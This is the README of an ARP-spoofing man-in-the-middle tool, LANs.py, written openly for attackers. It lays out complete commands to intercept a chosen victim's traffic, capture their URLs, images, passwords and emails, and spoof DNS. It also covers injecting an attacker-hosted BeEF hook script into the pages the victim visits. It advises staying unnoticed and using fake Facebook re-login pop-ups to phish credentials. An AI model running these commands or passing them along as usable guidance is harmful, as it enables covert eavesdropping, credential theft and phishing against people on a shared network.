 LANs.py
========

Multithreaded asynchronous packet parsing/injecting arp spoofer.

Individually arpspoofs the target box, router and DNS server if necessary. Does not poison anyone else on the network. Displays all most the interesting bits of their traffic and can inject custom html into pages they visit. Cleans up after itself.


Prereqs: Linux, scapy, python nfqueue-bindings 0.4.3+, aircrack-ng, python twisted, BeEF (optional), and a wireless card capable of promiscuous mode (if you don't know your victim's IP already, and use the -ip option).

Tested on Kali 1.0. In the following examples 192.168.0.5 will be the attacking machine and 192.168.0.10 will be the victim.



Complete Usage:

usage: LANs.py [-h] [-b BEEF] [-c CODE] [-u] [-ip IPADDRESS] [-vmac VICTIMMAC]
               [-d] [-v] [-dns DNSSPOOF] [-set] [-p] [-na] [-n] [-i INTERFACE]
               [-rip ROUTERIP] [-rmac ROUTERMAC] [-pcap PCAP]

Simplest usage:

```
python LANs.py
```

Because there's no -ip option this will arp scan the network, compare it to a live running promiscuous capture, and list all the clients on the nextwork including their Windows netbios names along with how many data packets they're sending so that you can immediately target the active ones. The ability to capture data packets they send is very dependant on physical proximity and the power of your network card. Then you can press Ctrl-C and enter your target's IP from the list which it will then ARP spoof. Simple target identification and ARP spoofing. 

Passive harvesting usage:

```
python LANs.py -u -d -p -ip 192.168.0.10
```

-u: prints URLs visited; truncates at 150 characters and filters image/css/js/woff/svg urls since they spam the output and are uninteresting

-d: open an xterm with driftnet to see all images they view

-p: print username/passwords for FTP/IMAP/POP/IRC/HTTP, HTTP POSTs made, all searches made, incoming/outgoing emails, and IRC messages sent/received; will also decode base64 if the email authentication is encrypted with it

-ip: target this IP address 

Easy to remember and will probably be the most common usage of the script: options u, d, p, like udp/tcp.


HTML injection:

```
python LANs.py -b http://192.168.0.5:3000/hook.js
```

Injecting BeEF hook URL into pages the victim visits.   


```
python LANs.py -c '<title>Owned.</title>'
```

Inject arbitrary HTML into pages the victim visits. First tries to inject it after the first `<head>` and failing that injects prior to the first `</head>`. This example will change the page title to 'Owned.'

More info about BEeF Project: (http://beefproject.com/, tutorial: http://resources.infosecinstitute.com/beef-part-1/)

Read from pcap:

```
python LANs.py -pcap libpcapfilename -ip 192.168.0.10
```

To read from a pcap file you must include the target's IP address with the -ip option. It must also be in libpcap form which is the most common anyway. One advantage of reading from a pcap file is that you do not need to be root to execute the script. 


Aggressive usage:
```
python LANs.py -v -d -p -n -na -set -dns facebook.com -c '<title>Owned.</title>' -b http://192.168.0.5:3000/hook.js -ip 192.168.0.10
```

All options:

```
python LANs.py -h
```

usage: LANs.py [-h] [-b BEEF] [-c CODE] [-u] [-ip IPADDRESS] [-vmac VICTIMMAC]
               [-d] [-v] [-dns DNSSPOOF] [-set] [-p] [-na] [-n] [-i INTERFACE]
               [-rip ROUTERIP] [-rmac ROUTERMAC] [-pcap PCAP]

optional arguments:
  -h, --help            show this help message and exit
  -b BEEF, --beef BEEF  Inject a BeEF hook URL. Example usage: -b
                        http://192.168.0.3:3000/hook.js
  -c CODE, --code CODE  Inject arbitrary html. Example usage (include quotes):
                        -c '<title>New title</title>'
  -u, --urlspy          Show all URLs and search terms the victim visits or
                        enters minus URLs that end in .jpg, .png, .gif, .css,
                        and .js to make the output much friendlier. Also
                        truncates URLs at 150 characters. Use -v to print all
                        URLs and without truncation.
  -ip IPADDRESS, --ipaddress IPADDRESS
                        Enter IP address of victim and skip the arp ping at
                        the beginning which would give you a list of possible
                        targets. Usage: -ip <victim IP>
  -vmac VICTIMMAC, --victimmac VICTIMMAC
                        Set the victim MAC; by default the script will attempt
                        a few different ways of getting this so this option
                        hopefully won't be necessary
  -d, --driftnet        Open an xterm window with driftnet.
  -v, --verboseURL      Shows all URLs the victim visits but doesn't limit the
                        URL to 150 characters like -u does.
  -dns DNSSPOOF, --dnsspoof DNSSPOOF
                        Spoof DNS responses of a specific domain. Enter domain
                        after this argument. An argument like [facebook.com]
                        will match all subdomains of facebook.com
  -set, --setoolkit     Start Social Engineer's Toolkit in another window.
  -p, --post            Print unsecured HTTP POST loads, IMAP/POP/FTP/IRC/HTTP
                        usernames/passwords and incoming/outgoing emails. Will
                        also decode base64 encrypted POP/IMAP
                        username/password combos for you.
  -na, --nmapaggressive
                        Aggressively scan the target for open ports and
                        services in the background. Output to
                        ip.add.re.ss.log.txt where ip.add.re.ss is the
                        victim's IP.
  -n, --nmap            Scan the target for open ports prior to starting to
                        sniffing their packets.
  -i INTERFACE, --interface INTERFACE
                        Choose the interface to use. Default is the first one
                        that shows up in `ip route`.
  -rip ROUTERIP, --routerip ROUTERIP
                        Set the router IP; by default the script with attempt
                        a few different ways of getting this so this option
                        hopefully won't be necessary
  -rmac ROUTERMAC, --routermac ROUTERMAC
                        Set the router MAC; by default the script with attempt
                        a few different ways of getting this so this option
                        hopefully won't be necessary
  -pcap PCAP, --pcap PCAP
                        Parse through a pcap file


Cleans the following on Ctrl-C:

--Turn off IP forwarding

--Flush iptables firewall

--Disables monitoring mode

--Individually restore each machine's ARP table



Technical details:

This script uses a python nfqueue-bindings queue wrapped in a Twisted IReadDescriptor to feed packets to callback functions. nfqueue-bindings is used to drop and forward certain packets. Python's scapy library does the work to parse and inject packets.

Injecting code undetected is a dicey game, if a minor thing goes wrong or the server the victim is requesting data from performs things in unique or rare way then the user won't be able to open the page they're trying to view and they'll know something's up. This script is designed to forward packets if anything fails so during usage you may see lots of "[!] Injected packet for www.domain.com" but only see one or two domains on the BEeF panel that the browser is hooked on. This is OK. If they don't get hooked on the first page just wait for them to browse a few other pages. The goal is to be unnoticeable. My favorite BEeF tools are in Commands > Social Engineering. Do things like create an official looking Facebook pop up saying the user's authentication expired and to re-enter their credentials.

#########################################
NOTE TO UBUNTU USERS:
You will need to update your nfqueue-bindings to the latest version (0.4.3 as time of writing) or you will have to edit the Parser.start() (around line 114) function to say:

def start(self, i, payload):

